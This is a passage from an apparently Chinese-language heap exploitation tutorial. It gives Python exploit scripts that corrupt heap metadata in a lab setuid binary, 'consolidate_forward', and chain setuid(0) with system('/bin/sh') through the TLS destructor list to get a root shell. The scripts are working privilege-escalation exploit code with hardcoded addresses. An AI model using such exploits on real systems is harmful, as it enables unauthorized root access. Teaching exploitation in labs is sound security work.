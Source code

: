 ```python
buf += conv(bk_nextsize)
buf += conv(system)
buf += conv(sh)
buf += "A" * 996

print "Calling vulnerable program"
call(["./consolidate_forward", buf])
```

执行上面的漏洞利用代码并没有给我们 root shell，它给了我们一个在我们自己的特权级别上运行的 bash shell。

**为什么没有获得root shell？**

当 uid != euid 时 /bin/bash 去除特权。我们的二进制文件“consolidate_forward”的real uid 为 1000 并且它的 effective uid 为 0，因此，当 system() 被调用时，bash 会去除特权，因为 real uid ！= effective uid。为了解决这个问题，我们需要在 system() 之前调用 setuid(0)，并且由于 _call_tls_dtors() 会一一遍历 tls_dtor_list，因此我们需要链接 setuid() 和 system() 以获得 root shell！

```python
#gen_file.py
#!/usr/bin/env python
import struct

#dtor_list
setuid = 0x4e123e30
setuid_arg = 0x0
mp = 0x804b020
nxt = 0x804b430

#endianess convertion
def conv(num):
 return struct.pack("<I",num)

tst = conv(setuid)
tst += conv(setuid_arg)
tst += conv(mp)
tst += conv(nxt)

print tst
-----------------------------------------------------------------------------------------------------------------------------------
#exp.py
#!/usr/bin/env python
import struct
from subprocess import call

fd = 0x0804b418
bk = 0x0804b418
fd_nextsize = 0xb7fe86c0
bk_nextsize = 0x804b008
system = 0x4e0a86e0
sh = 0x80482ce

#endianess convertion
def conv(num):
 return struct.pack("<I",num)

buf = conv(fd)
buf += conv(bk)
buf += conv(fd_nextsize)
buf += conv(bk_nextsize)
buf += conv(system)
buf += conv(sh)
buf += "A" * 996

print "Calling vulnerable program"
```